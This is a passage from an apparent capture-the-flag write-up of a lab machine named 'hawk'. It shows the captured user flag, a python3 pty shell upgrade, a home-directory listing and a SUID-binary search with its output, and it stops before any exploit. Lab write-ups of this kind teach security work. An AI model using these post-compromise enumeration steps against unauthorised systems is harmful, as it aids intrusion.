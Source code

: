 
We can now pick up the user flag.

```
$ cat user.txt
d5xxxxxxxxxxxxxxxxxxxxxxxxxxxxa8
```



<hr width="300" size="8">




<h3>Privilege Escalation</h3>



Improve our shell with python3

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL^Z 
stty raw -echo 
fg
```

Better!


The contents of daniel's home directory are interesting.

```

www-data@hawk:/home/daniel$ ls -la
total 36
drwxr-xr-x 5 daniel daniel 4096 Jul  1  2018 .
drwxr-xr-x 3 root   root   4096 Jun 16  2018 ..
lrwxrwxrwx 1 daniel daniel    9 Jul  1  2018 .bash_history -> /dev/null
drwx------ 2 daniel daniel 4096 Jun 12  2018 .cache
drwx------ 3 daniel daniel 4096 Jun 12  2018 .gnupg
-rw------- 1 daniel daniel  136 Jun 12  2018 .lesshst
-rw------- 1 daniel daniel  342 Jun 12  2018 .lhistory
drwx------ 2 daniel daniel 4096 Jun 12  2018 .links2
lrwxrwxrwx 1 daniel daniel    9 Jul  1  2018 .python_history -> /dev/null
-rw------- 1 daniel daniel  814 Jun 12  2018 .viminfo
-rw-r--r-- 1 daniel daniel   33 Jun 16  2018 user.txt

```

Search for suid files, there are lots of results to look through.

```
find / -perm -u=s -type f 2>/dev/null
```

```

/snap/core/4650/bin/mount
/snap/core/4650/bin/ping
/snap/core/4650/bin/ping6
/snap/core/4650/bin/su
/snap/core/4650/bin/umount
/snap/core/4650/usr/bin/chfn
/snap/core/4650/usr/bin/chsh
/snap/core/4650/usr/bin/gpasswd
/snap/core/4650/usr/bin/newgrp
/snap/core/4650/usr/bin/passwd
/snap/core/4650/usr/bin/sudo
/snap/core/4650/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/4650/usr/lib/openssh/ssh-keysign
/snap/core/4650/usr/lib/snapd/snap-confine
```